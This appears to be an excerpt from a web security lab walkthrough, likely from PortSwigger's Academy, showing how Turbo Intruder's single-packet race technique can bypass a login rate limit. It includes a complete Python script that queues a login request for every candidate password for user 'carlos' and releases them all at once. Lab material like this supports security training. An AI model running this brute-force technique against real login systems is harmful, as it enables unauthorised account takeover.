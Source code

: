 Prove the concept

    Still in Repeater, highlight the value of the password parameter in the POST /login request.

    Right-click and select Extensions > Turbo Intruder > Send to turbo intruder.

    In Turbo Intruder, in the request editor, notice that the value of the password parameter is automatically marked as a payload position with the %s placeholder.

    Change the username parameter to carlos.

    From the drop-down menu, select the examples/race-single-packet-attack.py template.

    In the Python editor, edit the template so that your attack queues the request once using each of the candidate passwords. For simplicity, you can copy the following example:

    def queueRequests(target, wordlists):

        # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=1,
                               engine=Engine.BURP2
                               )
        
        # assign the list of candidate passwords from your clipboard
        passwords = wordlists.clipboard
        
        # queue a login request using each password from the wordlist
        # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
        for password in passwords:
            engine.queue(target.req, password, gate='1')
        
        # once every request has been queued
        # invoke engine.openGate() to send all requests in the given gate simultaneously
        engine.openGate('1')


    def handleResponse(req, interesting):
        table.add(req)

    Note that we're assigning the password list from the clipboard by referencing wordlists.clipboard. Copy the list of candidate passwords to your clipboard.
